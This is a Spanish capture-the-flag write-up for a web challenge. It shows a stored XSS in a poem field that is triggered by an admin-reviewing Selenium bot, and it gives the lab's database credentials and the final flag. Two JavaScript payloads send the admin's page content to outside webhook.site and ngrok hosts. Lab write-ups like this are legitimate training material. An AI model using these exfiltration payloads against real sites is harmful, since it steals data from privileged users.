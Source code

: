 # batalla_de_gallinas

Lo primero que hago es montar el reto en local. Es importante este paso porque como veo que esta montando varios conetenedores docker, es importante saber como funcionan y como están interconectados entre sí. 

Tras analizar el `docker.compose.yml` vemos que se esta generando una base de datos con Mariadb, y otro el cual se corresponde a la web. Ambos contenedores están conectados entre si. También contiene otros tres contenedores: `selenium-chrome`, `selenium-hub`, y `redis`. El más importante es `selenium-chrome`, más adelate veremos porque.

En la web nos encontramos con una página de login en la cual nos deja registrarnos con los parametros `user`, `about_me`, y `password`.

![image.png](images/image_01.png)

Si intentamos registarnos con el usuario `admin` no nos deja, porque ya existe ese usuario. 

Nos creamos un usuario, y vemos que podemos subir un poema, y hacer que un administrador lo revise.

![image.png](images/image_02.png)

Con burpsuit, podemos analizar que hace la web cuando le damos al boton `Request poem review`, y este lo que hace es pasar los siguientes parámetros a `http://0.0.0.0:12105/visit`

- `Cookie: session=…`
- `csrf_tocken=…`

![image.png](images/image_03.png)

Analizando el código de la web (el archivo `app.py`):

```python
@app.route('/visit/', methods=['POST'])
@login_required
def doVisit():
    ip = request.remote_addr
    last_timestamp = last_visit.get(ip)
    current_timestamp = time()
    if last_timestamp and (current_timestamp - last_timestamp < VISIT_COOLDOWN):
        flash(f"Current user recently asked for a visit, please wait at least {VISIT_COOLDOWN} seconds between visits", 'warning')
        app.logger.info(f"Rejected enqueue {ip}, current: {current_timestamp}, last {last_timestamp}")
    else:
        last_visit[ip] = current_timestamp
        visit_url = f"http://babypoems:8080/poem/?username={current_user.get_id()}"
        q.enqueue(visit_user_page, visit_url, admin_password)
        flash("Enqueued successfully, an admin will review your poem soon", 'success')
        app.logger.info(f"Enqueued visit from {ip} to {visit_url}, admin pw: {admin_password}")

    return redirect(url_for('poem'))
```

Vemos que cuando nos deja hacer la petición se visita la siguiente URL con el parametro `username=valor` siendo el valor, el id de usuario. Si intentamos nosotros como usuario hacer la petición a la pagina con algun parametro: `http://0.0.0.0:12105/poem/?username=admin` nos salta un banner diciendo que solo los administradores pueden realizar esta opción.

---

Vamos a abordar la parte de la base de datos. Al iniciar el contenedor docker, se establece un contenedor que corresponderá a la base de datos (en mariadb). Si nos conectamos al contenedor, con: `docker exec -it <nombre_contenedor> /bin/bash`, podemos autenticarnos en mariadb con el usuario `babypoemsdbuser` y su contraseña `babypoemsdbpassword`. Listando las databases existentes (`SHOW DATABASES;`) nos conectamos a babypoemsdb (`USE babypoemsdb;`). Estando aquí, listamos todos los usuarios y contraseñas mediante la querry `SELECT * FROM user;`

![Screenshot 2024-11-21 at 12.14.13.png](images/image_04.png)

Vemos nuestro usuario y el usuario administrador. Pero de esta manera no conseguimos nada. Teniendo en cuenta que mariadb es bastante seguro, no vamos a intentar hacer una inyección SQL.

---

Otra opción que se nos puede ocurrir es abordar un secuestro de Cookies. Queremos obtener la cookie del usuario admin, para así secuestrar su sesión y poder ver el campo de `aboutme`. El servidor tiene configurado una flag en las cookies, `HttpOnly` está activado. Esta flag significa que desde javascript no vamos a poder leer las cookies del usuario, por lo tanto buscamos otro punto de entrada.

Revisando los archivos de la web, vemos un archivo llamado `visitor.py` el cual se ejecuta cuando submietamos el poema para que lo revise un administrador.

```python
from time import sleep
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys

def visit_user_page(url, adminpwd):
    options = webdriver.ChromeOptions()
    driver = webdriver.Remote(
         command_executor="http://selenium-hub:4444",
         options=options
    )
    try:
        print(f"Visiting {url}")
        driver.implicitly_wait(5)  # 5 sec timeout for finding elements
        driver.get("http://babypoems:8080/login")
        login_f = driver.find_element(By.ID, "usernameinput")
        login_f.send_keys("admin")
        pw_f = driver.find_element(By.ID, "passwordinput")
        pw_f.send_keys(adminpwd)
        pw_f.send_keys(Keys.ENTER)
        driver.get(url)
        sleep(5)  # Admire during 5 seconds how beautiful the user poem is
    finally:
        driver.quit()
```

Este lo que está haciendo es desde el contenedor `selenium-chrome` usar un navegador que se autentique con nuestro usuario, visualizará el problema el problema durante 5 segundos y se saldrá.

Cada vez que submiteamos el `js` que ponemos en el poema, se ejecutará cada vez que se visite a ese usuario. Este es un buen punto de entrada a la hora de poder obtener la flag, que si lo recordamos, está en el campo “About me” del usuario admin.

Se me ocurre que si conseguimos que el bot cargue la pagina correspondiente a el administrador: `https://…/poem/?username=admin` se guarde el `html` y despues enviárnoslo a un servidor que controlemos nosotros por el método POST, podremos obtener el campo “About me” del administrador. Este sería el código en `javascript`:

```python
<script>
fetch('https://3b51a408a705-webth-vulnerable.numa.host/poem/?username=admin')
.then(response => response.text())
.then(data => {

    const inputValue = document.querySelector("input").value;
    

    const serverUrl = 'https://webhook.site/b52153d3-fbf8-457f-a2eb-6b5d24d6735b';
    const fullUrl = `${serverUrl}?data=${encodeURIComponent(inputValue)}`;
    

    fetch(fullUrl);
});
</script>
```

Con este script vemos que el admin esta visualizando correctamente nuestro poema, porque estamos renderizando el HTML, y pasandolo a un servidor controlado.

![Screenshot 2024-12-02 at 09.55.03.png](images/image_05.png)

Vemos que aun así nos carga nuestro html en vez del administrador. Como el bot directamente está como administrador no hará falta pedirle que visite `/poem/?username=admin` sino que lo hará directamente, por lo que modificando el script anterior, para que una vez el bot visite su pagina, cargemos el html y lo pasemos al servidor controlado, quedando el siguiente script:

```python
<script>

    document.addEventListener('DOMContentLoaded', () => {

        const htmlContent = document.documentElement.outerHTML;

        const serverUrl = 'https://ab4a-193-147-77-9.ngrok-free.app';

        fetch(serverUrl, {
            method: 'POST',
            headers: {
                'Content-Type': 'text/plain',
            },
            body: htmlContent
        }).then(() => {
            console.log("Datos enviados al servidor con éxito.");
        }).catch(error => {
            console.error("Error al enviar los datos:", error);
        });
    });
</script>
```

Para el servidor, debido a algunos problemas decido usar ngrok para enviar las peticiones, pudiendo ver definitivamente la flag.

![image.png](images/image_06.png)

`URJC{4qu3l_h4ck3r_d3_l4s_4nd3s}`
